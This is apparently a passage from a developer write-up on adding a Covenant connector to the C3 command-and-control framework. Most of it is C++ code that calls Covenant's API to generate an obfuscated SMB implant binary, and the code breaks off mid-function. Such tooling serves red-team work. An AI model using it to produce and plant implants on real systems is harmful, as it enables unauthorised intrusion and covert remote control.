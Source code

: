 It is worth noting that we do not need to know where the payload is being returned to, such information is part of C3's core code, and we wanted to make extensions to C3 as easy as possible. All the developer needs to do is make sure the payload is correct, and it will make it's way to the correct Relay.

The logic for the above actions is as such:

```c++
FSecure::ByteVector FSecure::C3::Interfaces::Connectors::Covenant::GeneratePayload(ByteView binderId, std::string pipename, uint32_t delay, uint32_t jitter, uint32_t connectAttempts)
{
if (binderId.empty() || pipename.empty())
		throw std::runtime_error{ OBF("Wrong parameters, cannot create payload") };

	std::string authHeader = OBF("Bearer ") + this->m_token;
	std::string contentHeader = OBF("Content-Type: application/json");
	std::string binary;

	web::http::client::http_client_config config;
	config.set_validate_certificates(false);
	web::http::client::http_client webClient(utility::conversions::to_string_t(this->m_webHost + OBF("/api/launchers/binary")), config);
	web::http::http_request request;

	//The data to create an SMB Grunt
	json postData;
	postData[OBF("id")] = this->m_ListenerId;
	postData[OBF("smbPipeName")] = pipename;
	postData[OBF("listenerId")] = this->m_ListenerId;
	postData[OBF("outputKind")] = OBF("ConsoleApplication");
	postData[OBF("implantTemplateId")] = 2; //for GruntSMB template
	postData[OBF("dotNetFrameworkVersion")] = OBF("Net40");
	postData[OBF("type")] = OBF("Wmic");
	postData[OBF("delay")] = delay;
	postData[OBF("jitterPercent")] = jitter;
	postData[OBF("connectAttempts")] = connectAttempts;

	//First we use a PUT to add our data as the template.
	request = web::http::http_request(web::http::methods::PUT);
	try
	{
		request.headers().set_content_type(utility::conversions::to_string_t("application/json"));
		request.set_body(utility::conversions::to_string_t(postData.dump()));

		request.headers().add(OBF_W(L"Authorization"), utility::conversions::to_string_t(authHeader));
		pplx::task<web::http::http_response> task = webClient.request(request);
		web::http::http_response resp = task.get();

		//If we get 200 OK, then we use a POST to request the generation of the payload. We can reuse the previous data here.
		if (resp.status_code() == web::http::status_codes::OK)
		{
			request.set_method(web::http::methods::POST);
			task = webClient.request(request);
			resp = task.get();

			if (resp.status_code() == web::http::status_codes::OK)
			{
				auto respData = resp.extract_string();
				json resp = json::parse(respData.get());
				binary = resp[OBF("base64ILByteString")].get<std::string>(); //Contains the base64 encoded .NET assembly.
			}
			else
```